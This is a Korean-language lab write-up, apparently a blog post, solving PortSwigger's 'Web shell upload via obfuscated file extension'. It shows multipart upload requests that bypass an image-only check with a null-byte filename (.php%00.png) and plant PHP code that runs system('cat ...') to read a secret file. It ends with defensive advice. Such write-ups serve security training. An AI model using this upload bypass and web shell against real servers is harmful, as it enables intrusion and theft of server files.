




+++
date = '2026-10-05T21:00:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Web shell upload via obfuscated file extension"
summary = "검증 단계와 저장 단계의 파일명 해석 차이를 이용해 .php%00.png 파일을 PHP로 실행하는 File Upload 풀이"
toc = true
tags = ["File Upload", "Web Shell", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

> 

이 랩은 이미지 확장자만 허용하지만 파일 이름을 검사하고 저장하는 과정에 차이가 있다. 확장자 검증을 우회해 PHP 코드를 실행하고, `/home/carlos/secret`의 내용을 제출하는 것이 목표다.

실습 계정은 `wiener:peter`다.

### File Upload 진단

먼저 주어진 계정으로 로그인하여 업로드 요청을 확인한다.

```text
POST /my-account/avatar HTTP/2
Host: 0a55007503e2752480457b2f00120027.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryy9AL8E2lI5E4Mn5x
...

------WebKitFormBoundaryy9AL8E2lI5E4Mn5x
Content-Disposition: form-data; name="avatar"; filename="fake-image.png"
Content-Type: image/png

image
------WebKitFormBoundaryy9AL8E2lI5E4Mn5x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryy9AL8E2lI5E4Mn5x
Content-Disposition: form-data; name="csrf"

4VnQYc6U6R110WkVjTMunYn2hXX71CTz
------WebKitFormBoundaryy9AL8E2lI5E4Mn5x--
```

위 요청에서 filename을 `.php` 확장자로 업로드하면 “Sorry, only JPG & PNG files are allowed” 라는 응답이 내려온다.

파일 이름을 `fake-image.php%00.png`로 바꾼다. 입력에는 허용된 `.png` 확장자가 붙어 있으므로, 검증 이후 `%00`과 나머지 이름이 어떻게 처리되는지 확인한다.

```text
------WebKitFormBoundaryy9AL8E2lI5E4Mn5x
Content-Disposition: form-data; name="avatar"; filename="fake-image.php%00.png"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryy9AL8E2lI5E4Mn5x
```

업로드 후 `/files/avatars/fake-image.php`를 요청하면 PHP 정보 페이지가 반환된다. 요청한 파일명과 실제로 접근되는 이름이 달라졌다.



---

## 익스플로잇

같은 파일명으로 `/home/carlos/secret`의 내용을 출력하는 PHP 코드를 업로드한다.

```text
------WebKitFormBoundaryy9AL8E2lI5E4Mn5x
Content-Disposition: form-data; name="avatar"; filename="fake-image.php%00.png"
Content-Type: image/png

<?php system("cat /home/carlos/secret");?>
------WebKitFormBoundaryy9AL8E2lI5E4Mn5x
```

업로드한 파일을 조회하면 랩에서 지정한 파일 내용이 반환된다.



확인한 문자열을 제출하면 실습이 완료된다.



---

## 정리

요청에 담긴 이름은 `fake-image.php%00.png`였지만, 실행 결과를 확인한 경로는 `fake-image.php`였다. 검증이 받아들인 확장자와 최종 파일을 처리할 때의 확장자가 달라진 것이다.

진단에서는 요청한 이름, 업로드 응답의 이름, 실제 조회 경로를 함께 비교한다. `%00`의 처리 방식은 구현에 따라 달라지므로 이 랩의 결과를 이름의 해석 차이로 이해하고, 대응에서는 서버가 저장 이름을 생성해 검증한 파일만 공개하도록 구성한다.

유형별 원리와 다른 실습은 [File Upload Lab](/lab/portswigger-file-upload/)에 정리했다.
